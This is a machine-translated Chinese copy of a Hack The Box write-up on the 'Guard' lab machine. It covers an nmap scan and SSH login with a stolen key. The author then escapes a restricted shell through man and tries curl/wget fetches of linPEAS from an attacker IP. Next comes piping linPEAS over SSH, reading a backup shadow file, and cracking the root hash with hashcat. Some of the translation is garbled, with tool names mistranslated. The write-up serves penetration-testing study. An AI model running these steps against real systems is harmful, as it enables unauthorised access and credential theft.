


# 警卫被 pwn 了！

> 原文：<https://medium.com/geekculture/guard-has-been-pwned-da0bb9be4f30?source=collection_archive---------58----------------------->


Hack The Box Guard

入侵这台机器非常有趣，而且没花多长时间。让我们直入主题吧。我总是喜欢检查的第一件事是机器是否响应 ping 请求。这有助于确定机器是否在线。

```
└──╼ [★]$ sudo ping 10.10.10.50 | tee -a ping.10.10.10.50.txt
 [sudo] password for joe: 
 PING 10.10.10.50 (10.10.10.50) 56(84) bytes of data.
 64 bytes from 10.10.10.50: icmp_seq=1 ttl=63 time=37.1 ms
 64 bytes from 10.10.10.50: icmp_seq=2 ttl=63 time=21.8 ms
 64 bytes from 10.10.10.50: icmp_seq=3 ttl=63 time=21.9 ms
 64 bytes from 10.10.10.50: icmp_seq=4 ttl=63 time=22.4 ms
```

你可能会注意到，我倾向于通过管道将我的许多命令发送到 tee -a filename.txt。这是我在几次考试后养成的习惯。我还将输出复制到一个名为 notes 的单独的文本文件中。我倾向于在黑机器的时候写走查，拥有一个以上的副本也没有坏处。

我们知道机器正在响应 pings，所以让我们看看哪些服务实际上正在监听机器。我们可以通过运行 nmap 扫描来做到这一点。

```
└──╼ [★]$ sudo nmap -sC -sV -O -p0- 10.10.10.50 | tee -a nmap.10.10.10.50.txt
 Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2021–09–13 17:06 BST
 Nmap scan report for 10.10.10.50
 Host is up (0.023s latency).
 Not shown: 65535 closed ports
 PORT STATE SERVICE VERSION
 **22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;** protocol 2.0)
 | ssh-hostkey: 
 | 2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
 | 256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
 |_ 256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
 No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
```

唯一在电视上监听的似乎是宋承宪。我们可以尝试和九头蛇一起使用暴力，但我不认为这是我们想要的方法。因为 SSH 是唯一活动的服务，所以我假设我们应该已经有了上一个盒子中的凭证。机器标记有一个 XXE 漏洞，允许我们恢复用户 daniel 的 SSH 私钥。让我们看看这是否可行。

```
└──╼ [★]$ ssh -i daniel.key daniel@10.10.10.50
 Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0–88-generic x86_64)
 Last login: Mon Sep 13 15:38:53 2021 from 10.10.14.31
 daniel@guard:~$
```

可爱的朱布里最后一个盒子里的钥匙很好用。我们现在在机器上，但无论我怎么尝试，我都无法打开 user.txt 文件。一些有趣的事情正在发生。我最初试图通过 Vim 获得一个 shell，因为我以前使用过这种技术，结果发现 man 是我们的人！通过使用 man 命令，我们可以通过键入以下命令“逃”到 shell！巴什。



Hacking from man to shell

现在我们可以捕获用户标志。

```
 daniel@guard:~$ cat user.txt
209**********************081
```

那么下一步是什么？有一大堆文件系统需要查看，而没有多少命令可供我们使用。我试图从一个自托管的 Python 服务器上下载 linPEAS，但是我试图下载它的任何操作都失败了。

```
daniel@guard:~$ curl [http://10.10.14.38/leanpeas.sh](http://10.10.14.38/leanpeas.sh)
curl: (7) Couldn’t connect to server
daniel@guard:~$ ping 10.10.14.38
**ping: socket: Permission denied**
daniel@guard:~$ [http://10.10.14.38/leanpeas.sh](http://10.10.14.38/leanpeas.sh)
bash: [http://10.10.14.38/leanpeas.sh](http://10.10.14.38/leanpeas.sh): No such file or directory
daniel@guard:~$ wget [http://10.10.14.38/leanpeas.sh](http://10.10.14.38/leanpeas.sh)
 — 2021–09–13 16:48:20 —  [http://10.10.14.38/leanpeas.sh](http://10.10.14.38/leanpeas.sh)
Connecting to 10.10.14.38:80… failed: Permission denied.
Retrying.
```

对，看起来我们根本没有访问套接字的权限。不太好。我想是时候施展一些宋承宪的魔法了。您可以通过 SSH 使用管道命令，这应该允许我从本地系统上的脚本运行远程主机上的 linPEAS。

```
─[eu-vip-22]─[10.10.14.38]─[joe@parrot]─[~]
└──╼ [★]$ sudo ssh -i daniel.key daniel@10.10.10.50 ‘bash -s’ < /Path/To/linpeas.sh
```

老实说，没有什么能比你做了一些奇怪的事情并且成功了的感觉更好的了。现在 linPEAS 在远程主机上运行，是时候检查输出了。我注意到一些有趣的事情。

```
[+] Looking for ssl/ssh files
/home/picasso/.ssh/authorized_keys /usr/lib/initramfs-tools/etc/dhcp/dhclient-enter-hooks.d/config
PermitRootLogin yes
PubkeyAuthentication yes
**PasswordAuthentication yes**
```

首先，root 可以使用密码登录，而不需要公钥和私钥对。我不确定这会让事情变得更难还是更容易，但注意到这一点是有好处的。

```
[+] Looking for specific hashes inside files — less false positives (limit 70)
**/var/backups/shadow:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1**
```

看起来 linPEAS 能够从备份影子文件中获取散列值。这就是我们以 root 用户身份进入盒子的方式。让我们检查一下备份文件。

```
daniel@guard:~$ cat /var/backups/shadow
**root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::**
daemon:*:18113:0:99999:7:::
---SNIP---
pollinate:*:18113:0:99999:7:::
sshd:*:18326:0:99999:7:::
**daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::**
```

我已经删除了我们不需要的内容，您可以看到备份文件包含 root 和 daniel 的哈希。好吧，我们复制一份，然后离线破解。应该指出的是，我还注意到我可以对/etc/passwd 文件进行 cat。考虑到这一点，当我打算使用 unshadow 并尝试用 JohnTheRipper 破解它时，我也拿了一份副本。

```
└──╼ [★]$ sudo unshadow passwd.txt shadow.txt > passwords.txt
```

不幸的是，John 不喜欢这个文件并且无法破解它，所以我用 rockyou 单词表切换到 hashcat。

```
└──╼ [★]$ sudo hashcat -m 1800 — force root.hash /usr/share/wordlists/rockyou.txt$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:**password#1**

Session……….: hashcat
Status………..: Cracked
Hash.Name……..: sha512crypt $6$, SHA512 (Unix)
Hash.Target……: $6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbv…82hY31
Time.Started…..: Mon Sep 13 17:57:10 2021, (1 min, 3 secs)
Time.Estimated…: Mon Sep 13 17:58:13 2021, (0 secs)
Guess.Base…….: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue……: 1/1 (100.00%)
Speed.#1………: 1751 H/s (6.91ms) @ Accel:32 Loops:512 Thr:1 Vec:4
Recovered……..: 1/1 (100.00%) Digests
Progress………: 110336/14344386 (0.77%)
Rejected………: 0/110336 (0.00%)
Restore.Point….: 110208/14344386 (0.77%)
Restore.Sub.#1…: Salt:0 Amplifier:0–1 Iteration:4608–5000
Candidates.#1….: pooh-bear -> pashaungu
```

密码竟然是“密码#1”。老实说，我认为我们可以很快强行完成，但是请等一下。然后，我们能够以 root 用户身份登录到机器，并捕获 root 标志。

```
└──╼ [★]$ ssh root@10.10.10.50
root@10.10.10.50’s password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0–88-generic x86_64)
Last login: Mon Sep 13 15:50:13 2021 from 10.10.14.31
root@guard:~# cat root.txt
386*******************f681
```



Guard has been Pwned!

下次见，同样的时间，同样的时间…啊，算了吧。在 [haXez](https://haxez.org) 查看更多帖子。